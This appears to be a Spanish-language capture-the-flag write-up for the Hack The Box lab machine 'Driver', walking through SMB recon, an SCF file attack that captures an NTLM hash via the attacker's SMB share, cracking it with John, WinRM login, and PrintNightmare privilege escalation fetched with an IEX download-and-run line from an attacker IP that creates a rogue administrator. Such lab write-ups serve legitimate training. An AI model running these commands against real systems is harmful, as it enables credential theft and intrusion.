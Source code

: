 ## Summary

Tags: #SMB #SCF #John #Hash #Windows #WinRM #WinPEAS #Nmap 

- IP -> 10.10.11.106
- Ports -> TCP (445, 80, 135,5985), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 80 -> Microsoft IIS httpd 10.0
    - 135 -> Microsoft Windows RPC
    - 445 -> SMB
    - 5985 -> WinRM


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```
No encontramos nada relevante

```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```
Acceso denegado

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
```
Acceso denegado

```bash
❯ crackmapexec smb ❮IP❯               # Para listar recursos compartidos de Windows
```
No esta firmado, SMBv1, name:DRIVER, domain:DRIVER

* Al momento de entrar a la web. Nos pide una autenticacion, por lo que ponemos el user y passwd por defaul -> admin:admin y logramos entrar.

Wappalyzer:
* IIS 10.0 - Web Servers
* PHP 7.3.25 -Programming Languaje
* JQuery 3.2.1 - JavaScript Libraries

En la parte de Firmware podemos cargar un archivo.  Por lo que estamos frente a un **SCF (Shell Comand Files) File Attack** y lo buscamos en Google. 
* [SCF_File_Attacks](https://nored0x.github.io/red-teaming/smb-share-scf-file-attacks/)

Y haremos el siguiente:
```bash
❯ nano file.scf
	[shell]
	Command=2
	IconFile=\\10.10.14.13\smbFolder\test.ico    # Colocamos nuestra IP ,el recurso que vamos a compartir se llama 'smbFolder' y se cargara un icono aunque no exista
	[Taskbar]
	Command=ToggleDesktop
```

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support # Creamos un servicio con SMB 

	# smbFolder = Nos creara un servicio compartido llamado 'smbFolder'
	# pwd = Sincronizado con la ruta absoluta actual 
	# smb2support = En Windows 10 le damos soporte a la version 2
```

Suponiendo que se esta haciendo una autenticacion por detras, despues de subir el archivo y darle 'Submit'. Podemos observar en nuestra consola que hay un usuario llamado **'Tony' con su hash.**

Creamos un archivo que contenga el hash para despues poder usar John y asi crackearlo
```bash
❯ nvim hash
	tony::DRIVER:aaaaaaaa....
```

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt <Hashfile>                              # Usamos John para crackear un hash con fuerza bruta

	# wordlist = Ruta del diccionario rockyou.txt
	# hashfile = Archivo que contiene el hash a crackear
```
Nos devuelve una **passwd=liltony**

```bash
❯ crackmapexec smb ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯      # Para el servicio 445/tcp smb abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un (+) quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯    # Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo Remote management users, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.

# Podemos usar evil-winrm para conectarnos, si tiene el puerto 5985 abierto
```

## User
Como tambien tenemos el puerto 5985 OPEN, nos podemos conectar por evil-winrm
```bash
❯ evil-winrm -i ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯         # Nos podemos conectar ya al servicio de administracion remota de Windows
```
Entramos a la maquina 

```bash
❯ ipconfig                                   # Nos muestra las interfaces y las direcciones IP
```

```bash
❯ whoami                                     # Miramos el nombre del usuario
```

```bash
❯ net user ❮User❯                            # Para ver los grupos locales y el RMU
```

```bash
❯ type ❮File❯                                # Nos muestra el contenido del archivo
```
Miramos el contenido de la flag user.txt en el Desktop

## Root

```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos   
	
	# SetInpersonatePrivilege = En el cual podriamos usar RottenPotato o  JuicyPotato 
	# SetLoadPrivilege = Para usar el recurso de Tarlogic

❯  whoami /all                               # Miramos todos los privilegios
```
Pero no encontramos nada que nos ayude a escalar

Para poder escalar usaremos **WinPEAS** y lo descargaremos en la maquina de atacante, para despues subirlo a la maquina victima
* [WinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) 
Nos dirigimos a: Download the **latest obfuscated and not obfuscated versions from here**, -> Despues debemos de descargar el archivo **winPeasx64.exe** esto en la maquina de atacante Linux

```bash
C:\Windows\Temp                              # Directorios con capacidad de escritura en Windows
```

Este comando se ejecuta en la maquina Windows
```bash
❯ upload /home/omar/Downloads/Firefox/winpeasx64.exe # Subimos el archivo WinPEAS a la maquina victima, colocando la ruta absoluta de la maquina de atacante en donde se encuentra
```

```bash
❯.\winpeasx64.exe   # Ejecutamos el binario en la maquina victima, y recolectara informacion para ver las vilnerabilidadses y poder escalar privilegios.
```

Encontrams que tiene una vulnerabilidad con Spoolsv, por lo que buscamos en Google como poder explotarla
* [Spoolsv-PrintNightmare LPE (PowerShell)](https://github.com/calebstewart/CVE-2021-1675)
Nos dirigimos dentro a CVE-2021-1675.ps1 y despues a Raw para poderlo clonar en la maquina de atacante Linux
```bash
❯ wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1   # Nos descargamos el binario a nuestra maquina de atacante
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para pasar el binario
```

En la maquina Windows hacemos lo siguiente para subir el archivo
```bash
❯ IEX(New-Object Net.WebClient).downloadString(‘http://10.10.14.13/CVE-2021-1675.ps1’)  # Con este comando en la maquina victima podemos subir el script en powershell que esta cargado en nuestro servidor
```

Ahora podremos crear un usuario con los privilegios NT/AuthoritySystem
```bash
❯ Invoke-Nightmare -Drivername “Xerox” -NewUser “Omar” -NewPassword “Omar123$!” # Aqui crearemos un .dll en donde pondra nuestro usuario como administrador.
```

```bash
❯ net user                  # Verificamos los usuarios y miramos que ya tenemos asignado nuestro usuario como administrador
```
 
Despues de eso volvemos a verificar con crackmapexec y buscaremos que nos ponga un pwn3d y con eso verificaremos que nos podremos conectar con evilwinrm para que nos de una consola de Administrator
```bash
❯ crackmapexec winrm 10.10.11.106 -u ‘Omar’ -p ‘Omar123$!’ # Aqui veremos si nos pone un pwned y si es asi es porque el usuario normalmente esta en un directorio que se llama 'Remote Management User'.
```
  
```bash
❯ evil-winrm -i 10.10.11.106 -u ‘Omar’ -p ‘Omar123$!’      # Nos podemos conectar ya al servicio de administracion remota de Windows como el usuario Tony
```
  
Una vez adentro buscamos la flag root.txt